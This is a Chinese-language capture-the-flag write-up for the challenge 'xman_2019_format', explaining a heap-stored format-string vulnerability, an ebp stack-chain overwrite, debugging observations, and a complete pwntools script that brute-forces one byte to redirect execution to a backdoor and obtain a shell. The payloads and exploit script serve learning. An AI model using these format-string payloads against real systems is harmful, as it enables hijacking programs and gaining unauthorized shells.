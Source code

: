 [toc]

## xman_2019_format

### 总结

根据本题，学习与收获有：

- `printf`的字符串，如果是在堆上，那么就无法在栈上写地址利用`%x$hn`去修改
- `printf`会一次性取出所有的偏移的地址，再去修改。不是边写边修改！(结合调试过程理解！)
- 由于`ebp`寄存器会记录一个栈地址链，所以可以利用这一点特性，爆破修改这个栈地址链的最低字节，然后修改`ebp`寄存器后`4`个字节的内容，理想状态下，爆破`1`个字节即可，而且，所有的地址都是对齐到地址页。

### 题目分析

#### checksec

![](https://lynne-markdown.oss-cn-hangzhou.aliyuncs.com/img/20210313163000.png)

#### 函数分析

##### main

![](https://lynne-markdown.oss-cn-hangzhou.aliyuncs.com/img/20210313163109.png)

##### sub_804869D

![](https://lynne-markdown.oss-cn-hangzhou.aliyuncs.com/img/20210313163155.png)

##### sub_8048651

![](https://lynne-markdown.oss-cn-hangzhou.aliyuncs.com/img/20210313163247.png)

##### sub_804862A

![](https://lynne-markdown.oss-cn-hangzhou.aliyuncs.com/img/20210313163324.png)

##### sub_80485c4

![](https://lynne-markdown.oss-cn-hangzhou.aliyuncs.com/img/20210313163407.png)

层层套娃，终于走到了最后的处理函数。`strtok`是字符串分割函数，分割的符号为`|`。

#### 漏洞点

漏洞点很清楚，就是函数`sub_80485c4`中，将传入的字符串使用`|`分割后，直接调用`printf`函数。很明显的格式化字符串漏洞。但是这里要注意：**字符串存储在堆上**。所以，不能在栈上写地址，然后利用栈的偏移来向任意地址写。因此，只能借助栈上已有的地址，往`eip`寄存器里面写入目标地址。

注意到有一个后门函数：

![](https://lynne-markdown.oss-cn-hangzhou.aliyuncs.com/img/20210313163742.png)

只需要覆盖为这个函数的地址即可。

### 利用思路

因此，本题利用的思路很清晰：

- `printf`确定偏移

- 利用栈上的地址链，特别是`ebp`地址链，修改中间某一个地址的最低字节，修改为存储`eip`寄存器内容的那个地址
- 将这个可能会被压入`eip`寄存器的地址的内容，修改为`0x80475AB`
- get_shell

### EXP

#### 调试过程

本题需要一步步调试出来，首先测试一下偏移：

```python
# 输入：%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x
```

输入之前看一下栈：

![](https://lynne-markdown.oss-cn-hangzhou.aliyuncs.com/img/20210313164446.png)

这个调用链还是很明显的

执行完成打印出来的内容为：

![](https://lynne-markdown.oss-cn-hangzhou.aliyuncs.com/img/20210313164548.png)

数一下，偏移为`10`。

这个时候需要结合栈图整理一下思路：

- 首先修改`0xffffceb8`地址处的内容为`0xffffce9c`，这里需要修改最低的一个字节，偏移为10
- 然后修改`0xffffce9c`地址处的内容为`0x80485ab`，这里只需要修改最低的两个字节，偏移为18

![](https://lynne-markdown.oss-cn-hangzhou.aliyuncs.com/img/20210313164824.png)

很容易写出最后的输入应该为：

`%156c%10$hhn%34219c%18$hn`

可以调试一下，在`printf`函数下个断点，然后观察一下`0xfffceb8`的内容变化：

第一次命中断点：

![](https://lynne-markdown.oss-cn-hangzhou.aliyuncs.com/img/20210313165452.png)

第二次命中断点：

![](https://lynne-markdown.oss-cn-hangzhou.aliyuncs.com/img/20210313165843.png)

此处的值已经改变：

![](https://lynne-markdown.oss-cn-hangzhou.aliyuncs.com/img/20210313165916.png)

可以看到，最低字节已经修改成功。然后继续执行`printf`，看下`0xffffce9c`是不是修改为目标值：

发现修改失败了：

![](https://lynne-markdown.oss-cn-hangzhou.aliyuncs.com/img/20210313170652.png)

还是修改的最初的`0xffffcee8`的内容，并不是去修改的`0xffffce9c`的内容！这说明，`printf`格式化执行的时候，首先把所有对应偏移的地址先取出来，然后再去修改！

题目中，有一个`|`分割符，因此，只需要利用分割符分开输入即可！

所以，最终的输入为：

`%156c%10$hhn|%34219c%18$hn`

![](https://lynne-markdown.oss-cn-hangzhou.aliyuncs.com/img/20210313171253.png)

![](https://lynne-markdown.oss-cn-hangzhou.aliyuncs.com/img/20210313171327.png)

![](https://lynne-markdown.oss-cn-hangzhou.aliyuncs.com/img/20210313171410.png)

执行了`/bin/bash`

#### 完整exp

实际上需要爆破最低的那个字节，所以最终的exp如下：

```python
from pwn import *

context.log_level='debug'

for x in range(4, 0x100, 4):
    tar = '%' + str(x) + 'c%10$hhn|%34219c%18$hn'
    try:
        sh = process('./xman_2019_format')
        # sh = remote('node3.buuoj.cn', 27180)
        log.info('current low byte:{}'.format(hex(x)))
        sh.recv()
        sh.sendline(tar)
        sh.recv(timeout=1)
        sleep(1)
        sh.sendline('cat flag')
        sh.recvline_contains('flag', timeout=1)
        sh.interactive()
    except:
        sh.close()
```

远程爆破过程为：

![](https://lynne-markdown.oss-cn-hangzhou.aliyuncs.com/img/20210313171910.png)